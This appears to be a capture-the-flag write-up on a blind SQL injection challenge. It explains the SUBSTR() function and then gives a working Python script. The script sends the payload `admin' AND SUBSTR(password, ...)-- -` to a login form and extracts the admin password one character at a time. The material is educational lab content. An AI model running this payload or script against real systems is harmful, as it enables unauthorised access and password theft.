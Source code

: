 ### SQL injection

#### Blind attack
Before we perform the attack we need to learn more about the `SUBSTR()` function.

![image](https://github.com/Kunull/Write-ups/assets/110326359/ec609e62-def0-46f2-b58a-cb7d332e11ca)

```
## Extract the one character from the string starting at the first position
SUBSTR("pwn.college", 1, 1)

## Result:
p
```

```
## Extract the one character from the string starting at the second position
SUBSTR("pwn.college", 2, 1)

## Result:
w
```

```
## Extract the one character from the string starting at the third position
SUBSTR("pwn.college", 3, 1)

## Result:
n
```

Now we have to write a script that loops over and checks the next byte with a set of characters.

We also need to create an empty string.
If the script finds the `Hello, {username}!` message, within the response, it will append the character to the flag string.

```py title="~/script.py" showLineNumbers
import string
import requests

searchspace = ''.join(chr(i) for i in range(32, 127)) 
solution = ''
url = "http://challenge.localhost:80"

while True:
    found = False
    for char in searchspace:
        payload = f"admin' AND SUBSTR(password, {len(solution)+1}, 1) = '{char}'-- -"
        data = {
            "username": payload,
            "password": "irrelevant"
        }

        response = requests.post(url, data=data)

        if "Hello" in response.text:
            solution += char
            print(f"[+] Found so far: {solution}")
            found = True
            break

    if not found:
        print("[*] Done. Final password:", solution)
        break
```
